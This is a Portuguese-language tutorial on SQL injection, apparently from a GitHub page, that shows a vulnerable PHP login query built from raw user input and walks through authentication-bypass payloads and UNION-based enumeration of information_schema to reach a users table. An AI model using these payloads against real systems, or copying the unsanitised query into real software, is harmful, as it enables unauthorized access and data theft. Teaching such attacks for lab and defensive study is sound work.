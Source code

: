 # SQL Injection

O SQL injection, é uma das técnicas de vulnerabilidades web mais conhecida. Ela consiste em basicamente passar uma query SQL em um input que se o banco de dados não tiver um tratamento correto dessa entrada, pode acabar resultado em um vetor de ataque caso essa query seja maliciosa.

## Basic Bypass Authentication

Vamos supor que o backend trata a entrada de um login da seguinte forma abaixo.

```php
$user = $_POST['user'];
$password = $_POST['password'];

$query = "SELECT * FROM users WHERE user = '$user' AND pass '$password'"; 
```

O problema é que a query que irá para o banco de dados não está sendo filtrada corretamente, passando os parâmetros exatamente como o usuário digita e isso pode ocasionar a vulnerabilidade. 

Vamos então utilizar o payload mais básico para explorar essa falha. A ideia a seguir, é utilizar o campo do usuário para bypassar a consulta. Primeiro temos que fechar as aspas simples e utilizar uma condição de **ou** para que assim a query retorne **true** e por fim comentar o resto para que seja ignorado, com isso irá trazer os resultados no banco de dados. O payload final fica da seguinte forma: `' or 1=1 # ` ou `' or 1=1 --`. (*o comentário # e -- varia de acordo com o banco de dados*.)

Com isso, no banco de dados vai retornar o primeiro usuário que a consulta buscar, autenticando assim na aplicação com este usuário.

```sql
SELECT * FROM users WHERE user = '' or 1=1 -- ' AND pass 'password123" 
```

## Error-based SQL Injection

Esse é um tipo de injeção que retorna um erro para o usuário. Para triggar este erro, podemos passar, por exemplo, uma aspas simples para ver o que a aplicação retorna (essa aspas simples irá fechar a consulta no parâmetro que for passado). Se for vulnerável, geralmente provavelmente irá retornar uma mensagem de erro do tipo `Search SQLSTATE[42000]: Syntax error or access violation: 1064 You have an error in your SQL syntax;`.

Com isso, podemos utilizar o `union` do SQL para unir uma nova consulta, e passar um %23 que significa o caractere # encodado, já que estamos enviando essas informações pela url (irá comentar o resto da query que estiver no banco). Além do **"**#", poderia ser passado também um ponto e vírgula ou uma aspas simples, depende de como a aplicação foi feita. 

```
' or 1=1 union select 1; #
```

Assim, conseguimos descobrir a quantidade de colunas que possui, podemos tentar ir aumentando até não retornar nenhum erro. 

Nesse caso, podemos descobrir que a quantidade de colunas na tabela de produtos são no total 6. Podemos perceber também que é refletido os valores que inserimos sendo criado uma nova visualização na consulta.

A consulta final ficará assim, sendo completamente correta e com isso retorna as informações.

```sql
SELECT * FROM products WHERE name like '%' or 1=1 union select 1, 2, 3, 4, 5, 6; #%'
```

img3

Agora que conseguimos descobrir corretamente a quantidade de colunas e fazer a consulta funcionar como queríamos, podemos tirar vantagem disso para buscar informações do banco de dados, podemos usar funções do MySQL (banco de dados utilizado) como `user()`, `database()`, `version()` entre outras.

img4

Podemos agora buscar na tabela `information_schema` pela tabela que descobrirmos anteriormente.

```sql
' union select 1, table_name, 3, 4, 5, 6 from information_schema.tables WHERE TABLE_SCHEMA="lab"; #
```

img5

Uma vez que descobrimos o nome das tabelas, podemos ver que existe a tabela `users`. Com isso, nós conseguimos descobrir as colunas:

```sql
' union select 1, column_name, 3, 4, 5, 6 from information_schema.columns where TABLE_SCHEMA="lab" and TABLE_NAME="users"; #
```

img6

Agora que já sabemos quais os nome das colunas, podemos fazer a busca diretamente na tabela de `users`.

img7

